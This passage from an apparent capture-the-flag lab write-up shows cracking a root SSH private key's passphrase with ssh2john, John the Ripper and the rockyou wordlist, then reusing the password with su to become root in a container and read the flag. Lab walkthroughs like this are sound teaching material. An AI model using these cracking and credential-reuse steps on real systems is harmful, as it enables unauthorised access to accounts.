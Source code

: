 Download it with wget and uncompress the archive. It contains the root public and private keys. Brute forcing the private key's password reveals that the password is `choclate93`.

~~~
kali@kali:/data/infovore_1/files$ /data/src/john/run/ssh2john.py root > root.hash
kali@kali:/data/infovore_1/files$ /data/src/john/run/john root.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
choclate93       (root)
1g 0:00:00:05 DONE (2020-09-28 11:08) 0.1694g/s 2430Kp/s 2430Kc/s 2430KC/sa6_123..*7¡Vamos!
Session completed. 
~~~

Let's try to connect as root using the same password: `choclate93`.

~~~
www-data@e71b67461f6c:/var/www/html$ su root
su root
Password: choclate93

root@e71b67461f6c:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~

It worked. Let's get the docker root flag:

~~~
root@e71b67461f6c:/var/www/html# cd /root
cd /root
root@e71b67461f6c:~# ls -la
ls -la
total 24
drwx------  4 root root 4096 Jun 23 10:59 .
drwxr-xr-x 75 root root 4096 Sep 28 10:59 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jun 23 10:59 .ssh
-r--------  1 root root   79 Jun 22 21:41 root.txt
root@e71b67461f6c:~# cat root.txt
cat root.txt
FLAG{Congrats_on_owning_phpinfo_hope_you_enjoyed_it}

And onwards and upwards!
~~~

# Flag 3
